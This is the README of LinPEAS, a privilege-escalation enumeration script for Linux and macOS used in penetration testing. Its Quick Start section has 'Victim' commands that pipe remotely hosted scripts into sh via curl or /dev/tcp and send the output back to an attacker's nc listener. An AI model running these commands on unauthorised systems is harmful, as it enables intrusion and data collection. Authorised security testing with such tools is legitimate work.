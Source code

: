 # LinPEAS - Linux Privilege Escalation Awesome Script

![](https://github.com/peass-ng/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)**.

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)

## MacPEAS

Just execute `linpeas.sh` in a MacOS system and the **MacPEAS version will be automatically executed**

## Build your own linpeas!

The latest version of linpeas allows you to **select the checks you would like your linpeas to have** and built it only with those checks!

This allows to create **smaller and faster linpeas scripts** for stealth and speed purposes.

Check how to **select the checks you want to build [in your own linpeas following this link.](builder)**

Note that by default, in the releases pages of this repository, you will find a **linpeas with all the checks**.

## Differences between `linpeas_fat.sh`, `linpeas.sh` and `linpeas_small.sh`:

- **linpeas_fat.sh**: Contains all checks, even third party applications in base64 embedded.
- **linpeas.sh**: Contains all checks, but only the third party application `linux exploit suggester` is embedded. This is the default `linpeas.sh`.
- **linpeas_small.sh**: Contains only the most *important* checks making its size smaller.

## Quick Start
Find the **latest versions of all the scripts and binaries in [the releases page](releases/latest)**.

```bash
# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```bash
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
